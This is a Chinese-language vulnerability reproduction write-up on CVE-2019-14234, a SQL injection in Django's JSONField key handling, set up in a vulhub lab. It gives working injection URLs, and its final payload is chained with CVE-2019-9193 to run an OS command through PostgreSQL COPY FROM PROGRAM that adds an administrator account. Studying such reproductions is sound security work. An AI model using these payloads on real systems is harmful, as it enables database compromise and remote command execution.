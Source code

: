 # （CVE-2019-14234）Django JSONField sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/Django/CVE-2019-14234.html](http://book.iwonder.run/0day/Django/CVE-2019-14234.html)

## 一、漏洞简介

该漏洞需要开发者使用了 JSONField/HStoreField，且用户可控 queryset 查询时的键名，在键名的位置注入 SQL 语句。

Django 通常搭配 postgresql 数据库，而 JSONField 是该数据库的一种数据类型。该漏洞的出现的原因在于 Django 中 JSONField 类的实现，Django 的 model 最本质的作用是生成 SQL 语句，而在 Django 通过 JSONField 生成 sql 语句时，是通过简单的字符串拼接。

通过 JSONField 类获得 KeyTransform 类并生成 sql 语句的位置。

其中 key_name 是可控的字符串，最终生成的语句是 WHERE (field->'[key_name]') = 'value'，因此可以进行 SQL 注入。

## 二、漏洞影响

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

## 三、复现过程

### 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/django/CVE-2019-14234/
docker-compose up -d 
```

### 漏洞利用

#### 1、登录后台

[http://ip:8000/admin/vuln/collection/](http://ip:8000/admin/vuln/collection/)

#### 2、构造 URL 进行查询

[http://ip:8000/admin/vuln/collection/?detail__a%27b=123](http://ip:8000/admin/vuln/collection/?detail__a%27b=123)

![image](img/6899d4ef13638692870743376dab03e2.png)

可以看到已经注入成功，并且可以看到构造的 SQL 语句

为进一步验证注入语句，我们继续构造

```
http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1-- 
```

后台生成的 sql 语句的关键部分是

```
WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s 
```

由于 or 1=1 永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

![image](img/444cd4d3d00dd235e9f8f377adaf1fe0.png)

下一步结合 CVE-2019-9193 我们尝试进行命令注入，构造 url 如下

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20 
```

页面结果虽然报错，但是报错原因是 no results to fetch，说明我们的语句已经执行

![image](img/5c041d66f4ae0475c47dde3ae639de9a.png)

最终 payload

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20 
```

